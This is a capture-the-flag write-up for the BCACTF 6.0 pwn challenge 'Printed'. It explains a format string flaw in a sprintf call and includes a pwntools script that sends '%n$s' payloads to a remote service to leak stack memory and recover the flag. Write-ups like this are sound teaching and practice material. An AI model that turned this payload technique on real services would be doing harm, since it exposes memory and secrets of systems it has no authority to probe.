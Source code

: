 # Printed — Writeup

**Category:** *pwn*

## Solution

The following C source code was provided:

<p align="center">
<img src="../resources/BCACTF 6.0/Printed1.png" alt="The source code"/>
</p>

I noticed a possble **format string** vulnerability in the `show` function. The `sprintf` call used the **name** input directly, which allowed me to inject format specifiers and potentially read adjacent memory, including the flag. Because the flag is string data that is not given as an argument, the specifier `%n$s` attempts to access the _n_-th argument. Since that argument was never provided, it reads whatever is located at the position where the _n_-th argument **would be** on the stack, potentially leaking data from memory:

<p align="center">
<img src="../resources/BCACTF 6.0/Printed2_0.png" alt="Attempt with SIGSEGV"/>
</p>
<p align="center">
<img src="../resources/BCACTF 6.0/Printed2_1.png" alt="Attempt with data access"/>
</p>

To exploit the target program and get the flag from the host I wrote the following script:

```python
from pwn import *

context.log_level = 'error'

for i in range(1, 100):
	try:
		p = remote('example.com', 1234)
		payload = f'%{i}$s'.encode()
		p.sendline(payload)
		ans = p.recvline()
		print(ans.decode(errors='ignore'))
	except Exception:
		print('nothing')
		
	p.close()
	sleep(0.2)
```

Using this method, I was able to retrieve the flag:

<p align="center">
<img src="../resources/BCACTF 6.0/Printed3.png" alt="The flag"/>
</p>
